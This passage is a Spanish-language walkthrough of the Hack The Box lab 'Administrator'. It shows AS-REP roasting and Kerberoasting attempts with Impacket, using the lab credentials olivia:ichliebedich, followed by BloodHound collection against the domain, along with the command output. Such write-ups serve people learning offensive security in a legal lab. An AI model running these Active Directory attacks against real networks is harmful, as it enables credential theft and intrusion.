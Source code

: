 Podemos intentar un AS-REP Roast attack con estos usuarios, recordando que esto funciona si el usuario no tiene configurada la opción de requerir preautenticación para solicitar un TGT ticket del KDC
```bash 
└─$ /usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass -usersfile users administrator.htb/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User olivia doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User michael doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User benjamin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User emily doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ethan doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
``` 

Pero no tenemos nada tampoco... 

Podemos intentar realizar un Kerberoasting attack, en donde nos podríamos hacemos pasar por un usuario de cuenta con un nombre principal de servicio (SPN) y solicita un ticket relacionado con el servicio e intentar descifrar el hash de la contraseña vinculada a esa cuenta de servicio de forma offline, intentamos con el siguiente comando: 
```bash 
└─$ /usr/share/doc/python3-impacket/examples/GetUserSPNs.py administrator.htb/olivia:ichliebedich
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

No entries found!
```
Pero tampoco encontramos nada. 


Usemos ahora la herramienta `bloudhount`, usaremos docker para desplegar, [aqui](https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart) las instrucciones de la página oficial. 

También podemos iniciarlo de forma normal si se desea: 
```bash 
sudo neo4j console

blooodhount
```

Ahora nos dumpemos la info del dominio con `bloodhound-python`: 
```bash 
└─$ bloodhound-python -u 'olivia' -p 'ichliebedich' -c ALL --zip -ns 10.10.11.42 -d administrator.htb
``` 
> si nos da error por la desicronización de relojes, podemos ajustar nuetra nuestro reloj con el server con el comando `ntpdate 10.10.11.42`
